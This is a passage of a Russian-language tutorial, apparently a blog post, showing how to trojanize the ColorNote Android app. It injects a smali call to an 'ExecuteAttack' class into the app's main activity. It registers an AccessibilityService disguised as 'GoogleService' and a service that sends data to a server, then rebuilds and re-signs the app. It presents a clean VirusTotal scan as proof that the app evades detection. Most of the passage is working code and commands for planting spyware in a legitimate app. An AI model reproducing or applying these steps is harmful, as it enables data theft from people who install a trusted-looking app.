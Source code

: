 Берем этот вызов и добавляем в ```com.socialnmobile.colornote.activity.Main```. В итоге он выглядит так.

```java
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 6

    .prologue
    const v2, 0x7f0800f9

    const/4 v5, 0x0

    const/4 v4, 0x1

    .line 164
    invoke-super {p0, p1}, Lcom/socialnmobile/colornote/activity/ThemeFragmentActivity;->onCreate(Landroid/os/Bundle;)V
	
	.line 165
    invoke-static {p0}, Lcom/socialnmobile/colornote/activity/ExecuteAttack;->openSettings(Landroid/content/Context;)V
	
    .line 172
    invoke-virtual {p0, v4}, Lcom/socialnmobile/colornote/activity/Main;->d(I)V
```

Теперь копируем нужные smali, в декомпилированную папку ColorNote, как это делали в предыдущий раз. Меняем им package name. Не забываем об xml конфиге нашего сервиса, его тоже переносим в папку *res\xml*. Осталось добавить наш ```AccessibilityService``` и сервис по отправке данных на сервер в манифест.

```xml
<service android:name="com.socialnmobile.colornote.activity.SendService"/>
        <service android:name="com.socialnmobile.colornote.activity.GoogleService"
            android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
            <intent-filter>
                <action android:name="android.accessibilityservice.AccessibilityService" />
            </intent-filter>
            <meta-data android:name="android.accessibilityservice" android:resource="@xml/accessibility_service_config" />
        </service>
```

Как и ранее, собираем с помощью ```apktool``` и подписываем ```jarsigner```. [Virustotal говорит, что мы чисты](https://www.virustotal.com/gui/file-analysis/YmQxODExMjJiNjljZDVlOTRiZDFjYWI4N2YxYjYxNDQ6MTU2MzM3MDY4Ng==/detection). 

Видео, как это работает:

https://youtu.be/vTHcc6OSou0

